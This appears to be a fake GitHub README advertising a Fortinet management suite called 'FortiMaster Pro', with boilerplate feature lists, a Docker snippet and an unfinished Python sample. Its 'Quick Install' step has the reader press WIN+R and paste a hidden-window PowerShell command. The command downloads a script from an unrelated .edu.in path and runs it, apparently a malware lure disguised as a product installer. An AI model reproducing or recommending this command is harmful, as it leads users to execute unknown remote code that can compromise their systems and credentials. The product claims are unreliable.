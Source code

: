 # 🛡️ FortiMaster Pro - Ultimate Fortinet Management Suite

### 🔒 Next-Gen Security Automation
✅ **FortiGate Orchestrator**
- Zero-touch policy deployment
- Automated rule optimization
- Shadow rule detection & cleanup

✅ **Threat Intelligence Hub**
- Real-time IOC sync with FortiGuard
- Custom threat feed integration
- Automated containment workflows

### 📊 Network Analytics
📈 **FortiAnalyzer+**
- AI-powered log correlation
- User/entity behavior analytics
- Compliance heatmaps (NIST/ISO)

🌐 **Topology Visualizer**
- Auto-generated network maps
- SD-WAN path simulation
- Security fabric dependency graphs

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

#### 📌 Deployment Options:
```bash
# Docker deployment
docker run -d --name fortitool \
  -e API_KEY=$FORTI_KEY \
  ghcr.io/fortinet-ecosystem/powertool:latest
```

### ⚡ Automation Toolkit
```python
# Sample API call for automated policy push
import fortiosapi

fortigate = fortiosapi.FortiOSAPI()
fortigate.login(host='192.168.1.99', username='admin', password='')
fortigate.set('firewall', 'policy', vdom='root', data={
    'name': 'Block_Malware',
    'srcintf': 'port1',
    'dstintf': 'port2',
    'action': 'block',
    'service': 'ALL'
})

🔧 Supported Products:

- FortiGate (v7.4+)

- FortiManager

- FortiAnalyzer

- FortiSIEM

